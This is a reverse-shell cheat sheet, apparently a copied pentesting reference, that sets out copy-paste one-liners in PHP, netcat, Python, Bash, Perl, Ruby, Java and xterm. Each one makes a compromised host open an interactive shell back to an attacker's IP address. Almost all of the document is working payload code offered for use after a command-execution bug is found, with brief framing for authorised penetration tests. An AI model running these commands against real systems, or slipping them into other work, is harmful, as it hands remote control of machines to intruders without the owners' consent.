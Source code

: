 # Reverse Shell Cheat Sheet
If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.
Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.
The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.
Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.
# PHP
```
php -r '$sock=fsockopen("10.18.59.236",4545);exec("/bin/sh -i <&3 >&3 2>&3");'
```
# NatCat
```
nc -e /bin/sh 10.18.59.236 2222
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.59.236 4545 >/tmp/f
```
# Python
This was tested under Linux / Python 2.7:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.59.236",4545));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# Bash
```
bash -i >& /dev/tcp/10.18.59.236/4545 0>&1
```
# Perl
```
perl -e 'use Socket;$i="10.18.59.236";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
# Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.18.59.236",4545).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
//Untested submission from anonymous reader
```
#XTerm
```
//One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

//To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

//You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip
```
